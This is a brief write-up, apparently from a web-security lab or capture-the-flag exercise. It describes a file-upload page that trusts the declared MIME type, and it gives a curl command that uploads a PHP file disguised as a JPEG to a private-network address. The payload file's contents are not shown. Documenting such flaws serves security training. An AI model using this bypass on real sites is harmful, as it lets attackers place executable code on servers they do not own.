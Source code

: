 On: /?page=upload

The file input only accepts Mime Type "image/jpeg" but doesn't check the actual type of the file

To tamper the file type: ```curl -F "uploaded=@hello.php;type=image/jpg" --form "MAX_FILE_SIZE=10000" --form "Upload=Upload" "http://10.11.200.135/?page=upload"```
